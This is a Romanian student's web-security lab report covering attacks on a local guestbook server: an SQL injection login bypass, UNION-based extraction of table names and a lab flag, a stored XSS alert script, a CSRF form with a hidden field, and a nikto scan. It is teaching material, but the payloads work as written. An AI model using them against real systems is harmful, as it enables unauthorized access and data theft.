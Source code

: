 Student: Margineanu Vladut
Grupa: 341 C2

						Laborator 8


	Cerinta 1

 Serverul ruleaza direct un query. Cu urmatorul SQL injection (cu stringurile date la login):

 SELECT * FROM tabela WHERE username=<user> AND PASSWORD=<passwd> LIMIT 	1


 SELECT * FROM tabela WHERE username='' OR 1=1 -- ' AND PASSWORD=<passwd>

Comment:  username este string care se evalueaza la true: '' OR 1=1 -- ' fac ca restul comenzii, pana la ' sa fie comentat

	Cerinta 2

 SELECT col1, col2... FROM tablename WHERE name='' UNION (SELECT 1, 2, ...)  -- bruteforce the number of columns! '

 1. Incercam sa ne logam cu: ' or 1 order by 1,2,3,4,5,6,7,8,9,10--
 - se observa eroarea la coloana 5 => avem 4 coloane

 2. Ne logam cu ' union select 1, 2, 3, group_concat(table_name separator ',') from information_schema.tables where table_schema='guestbook' -- x
 - se observa ca avem tabelele: entries, flags, users

 3. Aflam care e coloana cu flag-ul:
 ' union select 1, 2, 3, group_concat(column_name separator ',') from information_schema.columns where table_schema='guestbook' and table_name='flags' -- x

 4. Selectam flagul din tabela.
 ' union select 1, 2, 3, flag from guestbook.flags -- x

 Se obtine flag-ul: SpeishFlag{th1sw4sSQL1nj3cti0n}!

	Cerinta 3

 Mesajele scrise in chenarul din server sunt interpretate ca HTML. 
 Orice script e bagat in HTML si executat. Asadar, mesajul contine:

 <script>
 alert("Arafat!");
 </script> 
 si genereaza un "dialog box" in care scrie "Arafat!"

	Cerinta 4

 Form al guestbook-ului:
<form method="post" action="/guestbook/post">
  <p>
    <div><label for="message">Message:</label></div>
    <textarea id="message" name="message" rows="3" cols="80"></textarea>
  </p>
  <p>
    <input type="submit" value="Send">
  </p>
</form>

 L-am refactorizat local:
<form method="post" action="http://localhost:8080/guestbook/post">
  <p>
    <label>Boss:</label>
    <input type="hidden" id="message" name="message" value="Voucher 2021">
  </p>
  <p>
    <input type="submit" value="Click Here!">
  </p>
</form>

	Cerinta 5
 - cu utilitarul nikto, am scanat server-ul si am gasit fisierul server.js. 
 - l-am descarcat cu comanda curl si l-am adaugat in arhiva

 




